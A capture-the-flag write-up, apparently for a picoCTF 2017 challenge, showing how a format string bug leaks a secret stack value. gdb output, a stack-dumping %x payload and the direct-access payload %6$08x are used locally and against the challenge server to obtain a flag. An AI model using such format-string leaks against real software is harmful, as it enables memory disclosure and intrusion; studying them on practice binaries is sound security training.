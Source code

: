 The above snippet and the source code line 16 tells me that 'secret' is located at $ebp-0x10.
This is because in x86 assembly, functions receive arguments by having them push onto the stack.

|stack|
|-----|
|saved ebp|
|retn addr|
|arg1|
|arg2|


```
gdb-peda$ x/x $ebp-0x10
0xffffce98:	0x66058af3
gdb-peda$ c
Continuing.
Give me something to say!
00000040.f7faa5a0.08048792.00000001.ffffcf54.66058af3.00000003.f7faa3dc.ffffcec0.00000000.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
[Inferior 1 (process 15865) exited normally]
Warning: not running or target is remote
```

From the above, we can accurately say that variable secret is located at 6th position of the stack and can be accessed directly with POSIX syntax `%6$08x`.

### Local

```
$ echo Flag{SampleFlag} > flag.txt

$ ./secret 
Give me something to say!
%6$08x
5fd740d3
Now tell my secret in hex! Secret: 5fd740d3
Wow, you got it!
Flag{SampleFlag}
```

### Remote

```
$ nc shell2017.picoctf.com 10750
Give me something to say!
%6$08x
06ad87b1
Now tell my secret in hex! Secret: 06ad87b1
1ba85d212f80746e0c61b8d45bc690b6
Wow, you got it!
```

(Completed)

